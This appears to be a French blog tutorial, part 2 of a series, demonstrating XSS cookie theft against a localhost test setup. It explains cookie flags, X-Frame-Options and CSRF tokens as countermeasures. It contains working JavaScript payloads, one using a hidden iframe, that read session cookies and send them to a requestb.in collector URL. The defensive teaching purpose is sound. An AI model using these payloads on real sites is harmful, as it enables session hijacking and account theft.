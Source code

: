 ```yaml
---
layout: post
title:  "XSS, CORS, CSRF (Partie 2)"
date:   2016-08-15
categories: web
---
```

XSS  et vol de cookies par la pratique.
----------

**Vous reprendrez bien un cookie ?**
  
Dans le [premier volet]({{ site.url }}/xss-cors-csrf-partie-1-xss) de notre saga, nous traitions des attaques XSS et des moyens de s’en prémunir. Ces vulnérabilités peuvent être utilisées pour voler vos informations de session ou vous rediriger vers un site frauduleux. Vous vous dîtes sûrement : "ok coco en théorie c’est bien sympa tout ça, mais en quoi consiste le vol d’une session, quelles informations sont envoyées et où part la requête ?".  
  
Imaginons la configuration suivante :
  
![Configuration de l'attaque]({{ site.url }}/public/images/xss-cors-csrf/cors_1.png)
  
Un internaute requête le site *www.site-a.com* qui est un site de confiance mais vulnérable au XSS. Un pirate pourra injecter le code suivant :  

```html
Juste un petit coucou !
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(document.cookie));
	xhr.send();
</script>
```
  
Pour notre test nous partirons sur le postulat que *www.site-a.com* est notre *localhost*, et que *www.site-b.com* (le site du pirate qui récupère les infos) correspond au site *http://requestb.in*.  

> Le site **http://requestb.in** est très utile pour analyser les requêtes HTTP.  

Lorsque le script est exécuté, ce dernier accède au **document.cookie** qui correspond au cookie du document HTML courant contenant l’id de session. Ce dernier peut ressembler à ceci :  

![Exemple cookie 1]({{ site.url }}/public/images/xss-cors-csrf/cors_2.png)  
Ou bien ceci :  

![Exemple cookie 2]({{ site.url }}/public/images/xss-cors-csrf/cors_3.png)  
Nous reviendrons sur ce dernier cas par la suite car ce dernier est un cookie sécurisé. Je vous recommande sous Chrome d’installer l’extension [Cookie Inspector]( https://chrome.google.com/webstore/detail/cookie-inspector/jgbbilmfbammlbbhmmgaagdkbkepnijn).  
  
Pour nos tests voici la configuration mise en place :  

 - Une page *http://localhost/secu/cookie.php*:  

```php
<?php
	setcookie('PHPSESSID_secure', 'jm5mah0a9uuf4g344096nled73', 0, '/secu', $_SERVER['SERVER_NAME'], isset($_SERVER["HTTPS"]), true);
	setcookie('PHPSESSID_unsecured', 'jm5mah0a9uuf4g344096nled73', 0, '/', $_SERVER['SERVER_NAME'], false, false);
?>
```  
> Vous ne pouvez pas définir de cookie pour un autre domaine.  

Les cookies générés (deux cookies à des fins de test):  
  
![Configuration cookies test]({{ site.url }}/public/images/xss-cors-csrf/cors_4.png)  
Les champs [Domain, Path, HTTP et Secure](https://tools.ietf.org/html/rfc6265) sont les champs qui permettront de sécuriser notre cookie:  

**domain** : le domaine racine concerné par le cookie  
**path** : détermine pour quelle arborescence à partir du domaine racine le cookie sera accessible  
**session.cookie_httponly** : empêche un cookie d’être accessible via javascript (XSS ;))  
**session.cookie_secure** : accède au cookie uniquement sur des connexions HTTPS (empêche les informations de transiter en clair – voir également la solution [HSTS](https://developer.mozilla.org/fr/docs/S%C3%A9curit%C3%A9/HTTP_Strict_Transport_Security))    
  
 - Une page vulnérable *http://localhost/xss.php* qui contient le payload vu précédemment.  
  
Ce cookie est envoyé via une requête **XMLHttpRequest** sur *requestb.in*. Regardons quelles informations sont réceptionnées :  
![Requestb.in get data]({{ site.url }}/public/images/xss-cors-csrf/cors_5.png)
  
Nous récupérons bien l’id de session de notre cookie non sécurisé uniquement. Ceci a été possible car :  

  -	Faille **XSS** ayant permis l’injection de javascript
  -	Cookie avec le flag **HttpOnly** à false
  -	Requête **Cross-Origin** simple sur le site du pirate pour récupération des informations
  -	Cookie avec un **Path** permissif (toute l’arborescence du site)  
  
Il convient de définir un path pour lequel le cookie doit être actif, dans notre exemple un espace sécurisé */secu* qui sollicite le cookie session. Ainsi notre page publique vulnérable *xss.php* à la racine */* n’aurait pas été en mesure d’accéder au cookie. Modifions le path de notre cookie unsecured :  
  
```php
setcookie('PHPSESSID_unsecured', 'jm5mah0a9uuf4g344096nled73', 0, '/secu', $_SERVER['SERVER_NAME'], false, false);
```
  
Et si maintenant nous tentions dans notre payload (depuis la page *http://localhost/xss.php*) d’accéder à la page *http://localhost/secu/cookie.php*, de lui voler son cookie et de nous l’envoyer :  
  
```html
<script>    
	var xhr = new XMLHttpRequest();
	xhr.onreadystatechange = function () {

		if (xhr.readyState == 4) {
			var cookie = xhr.getResponseHeader('Set-Cookie');   
				
			var xhr2 = new XMLHttpRequest();
			xhr2.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(cookie), false);
			xhr2.send();
		}
	}	
	xhr.open('GET', 'http://localhost/secu/cookie.php');
	xhr.send();		  
</script>
```
  
Malheureusement nous obtenons : <span style="color: red">```Refused to get unsafe header "Set-Cookie"```</span>.  
  
La spécification **XMLHttpRequest** interdit l’accès à certains response headers pour des raisons de sécurité. Les navigateurs chrome / firefox / IE retourneront donc null ([https://fetch.spec.whatwg.org/#forbidden-header-name]( https://fetch.spec.whatwg.org/#forbidden-header-name)).  
  
<a name="iframe"></a>N’y-a-t-il pas une autre méthode que notre XHR pour charger cookie.php?  
  
```html
<script>    
	var iframe = document.createElement("iframe");
	iframe.src = "http://localhost/secu/cookie.php";
	iframe.hidden = true;            
	var iframeObj = document.body.appendChild(iframe);

	iframeObj.onload = function(){            
		var cookie = iframeObj.contentDocument.cookie;
		var xhr = new XMLHttpRequest();
		xhr.open('GET', 'http://requestb.in/w7iy5sw7?cookie=' + encodeURI(cookie));
		xhr.send();
	};          	  
</script>
```  
  
Bingo, même avec un path défini pour ce cookie, nous avons pu le récupérer, et si vous avez bien retenu votre leçon dans le [volet 1](https://phackt.github.io/xss-cors-csrf-partie-1-xss) de notre saga XSS, vous connaissez la contre-mesure à ce payload : le response header **X-Frame-Options** qui interdit qu’une page soit rendue dans un ```<frame>```, ```<iframe>``` ou ```<object>```. Bien évidemment il est préférable en amont de toujours positionner le flag **HttpOnly**. L’accès au cookie par javascript est peu justifiable dans les développements Web.  
  
> *"J’ai activé la console de mon navigateur et je remarque cependant un warning:"*  

<pre class="alert">
XMLHttpRequest cannot load http://requestb.in/w7iy5sw7?cookie=PHPSESSID_unsecured=jm5mah0a9uuf4g344096nled73.  
No 'Access-Control-Allow-Origin' header is present on the requested resource. Origin 'http://localhost' is therefore not allowed access.
</pre>  
  
> *"Nous requêtons depuis une ressource du domaine http://localhost:80 vers le domaine http://requestb.in:80, et nous avons ce message, comment se fait-il que la requête ait abouti ?"*  
  
Et bien je vous remercie d’avoir posé la question :). Nous sommes typiquement dans le cas d’une requête Cross Origin. Aujourd'hui AJAX  est omniprésent dans les développements de par l'essor des frameworks client riches comme AngularJS. Je réserve le détail du **Cross-Origin Resource Sharing** pour le dernier volet de cette saga. La connaissance du CORS est essentielle pour les développeurs WEB.  
  
Imaginez que vous surfiez sur un site frauduleux qui puisse soumettre à votre insu des requêtes sur un de vos sites préférés en incluant vos informations de session et poster des formulaires à votre place... C’est à ce niveau qu’il est essentiel de bien configurer le Cross-Origin Resource Sharing et de définir un **token de sécurité** pour éviter les attaques **Cross-Site Request Forgery**. Ceci nous montre bien que les vecteurs d'attaques sont multiples.  
  
A très bientôt.
<br />
<br />
Références:  
[http://php.net/manual/fr/session.security.php](http://php.net/manual/fr/session.security.php)  
[https://geekflare.com/httponly-secure-cookie-apache/](https://geekflare.com/httponly-secure-cookie-apache/)  
[https://fetch.spec.whatwg.org/](https://fetch.spec.whatwg.org/)  
[https://geekflare.com/secure-cookie-flag-in-tomcat/](https://geekflare.com/secure-cookie-flag-in-tomcat/)
